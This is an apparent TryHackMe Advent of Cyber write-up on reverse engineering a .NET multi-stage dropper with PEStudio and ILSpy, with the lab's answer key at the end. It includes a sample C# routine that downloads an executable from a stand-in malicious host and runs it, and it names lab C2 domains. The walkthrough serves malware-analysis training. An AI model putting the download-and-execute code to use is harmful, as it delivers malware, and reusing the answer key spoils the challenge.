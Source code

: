 # TryHackMe Advent of Cyber - Day 21: HELP ME...I'm REVERSE ENGINEERING! 

McSkidy's alert dashboard detected an unusual security warning from a file-sharing web application built by Glitch. The alert originated from a suspicious binary file compiled with .NET, triggering McSkidy's investigation into its anomalous behavior. Glitch denied involvement but agreed to assist in analyzing the file.

### Learning Objectives:
- Understand the structure of a binary file.
- Differentiate between disassembly and decompiling.
- Gain familiarity with multi-stage binaries.
- Reverse engineer a multi-stage binary practically.

---

## Introduction to Reverse Engineering (RE)
Reverse engineering (RE) involves analyzing binaries to:
- Determine their functionality.
- Identify malicious behavior.
- Detect security vulnerabilities.

**Example:** In 2017, Marcus Hutchins reverse-engineered WannaCry ransomware, registering a domain that neutralized the attack globally.

### Binaries
Binaries are compiled files containing:
1. **Code Section**: Executable instructions for the CPU.
2. **Data Section**: Variables and resources (e.g., images).
3. **Import/Export Tables**: Referenced libraries for additional functionality.

### PE Structure
The suspicious file follows the Portable Executable (PE) structure, typical for Windows executables.

---

## Disassembly vs. Decompiling
Two primary reverse engineering techniques:

| Comparison       | Disassembly                          | Decompiling                        |
|------------------|--------------------------------------|-------------------------------------|
| **Readability**  | Requires assembly knowledge.         | Easier for those familiar with high-level languages. |
| **Output Level** | Exact machine instructions.          | High-level approximation of logic. |
| **Difficulty**   | Higher due to detailed instructions. | Lower, but may lose some details.  |
| **Usefulness**   | Full behavior study with effort.     | Quick logic understanding.         |

---

## Multi-Stage Binaries
Attackers often use multi-stage binaries:
1. **Stage 1 - Dropper**: Checks system conditions and downloads further payloads.
2. **Stage 2 - Payload**: Performs the attack (e.g., encryption).

Advantages of multi-stage binaries:
- Evades detection by appearing less harmful initially.
- Grants attackers control over attack progression.

---

## Investigating the Suspicious Binary
### Initial Analysis
1. **Navigate to File**: Locate `WarevilleApp.exe` in the machine’s Desktop folder.
2. **File Details**:
   - Right-click and select **Properties**.
   - Confirm file extension (.exe) and architecture type (e.g., x64).

3. **Analyze with PEStudio**:
   - Open PEStudio and load the file.
   - Document:
     - **SHA-256 hash** for identification.
     - Key sections like `.text` containing executable code.
   - Review indicators such as URLs, IP addresses, or suspicious strings.

### Static Analysis
Focus on identifying:
- URLs and IP addresses.
- Function calls or crypto wallets in strings.

---

## Dynamic Analysis
### Decompiling with ILSpy
1. Open ILSpy from the taskbar.
2. Load the binary `WarevilleApp.exe`.
3. Review code structure in the left panel.
4. Analyze the `Main` function for logic and flow:
   - Identify variables and their assignments.
   - Observe actions like file downloads, executions, or interactions.

### Sample Code Analysis
For example:
```csharp
private static void Main(string[] args)
{
    Console.WriteLine("Analyzing suspicious binary...");
    string url = "http://malicious-site.com/payload.exe";
    string path = "C:\\Users\\Administrator\\Downloads\\payload.exe";

    using (WebClient webClient = new WebClient())
    {
        webClient.DownloadFile(url, path);
        Process.Start(path);
    }
    Console.WriteLine("Execution completed.");
}
```
**Flow**:
1. Downloads a file from a malicious URL.
2. Saves it locally and executes it.

---

## Execution Testing
**Important:** Execute the binary only in a sandbox environment. Observe:
- Console messages.
- File downloads and their behavior.

---

## Next Steps
Work with McSkidy to:
1. Complete static and dynamic analysis.
2. Identify malicious behavior.
3. Document findings for mitigation strategies.

**Tools Used**:
- PEStudio
- ILSpy

---

## Questions

1. What is the function name that downloads and executes files in the WarevilleApp.exe?
    >DownloadAndExecuteFile
2. Once you execute the WarevilleApp.exe, it downloads another binary to the Downloads folder. What is the name of the binary?
    >explorer.exe
3. What domain name is the one from where the file is downloaded after running WarevilleApp.exe?
    >mayorc2.thm
4. The stage 2 binary is executed automatically and creates a zip file comprising the victim's computer data; what is the name of the zip file?
    >CollectedFiles.zip
5. What is the name of the C2 server where the stage 2 binary tries to upload files?
    >anonymousc2.thm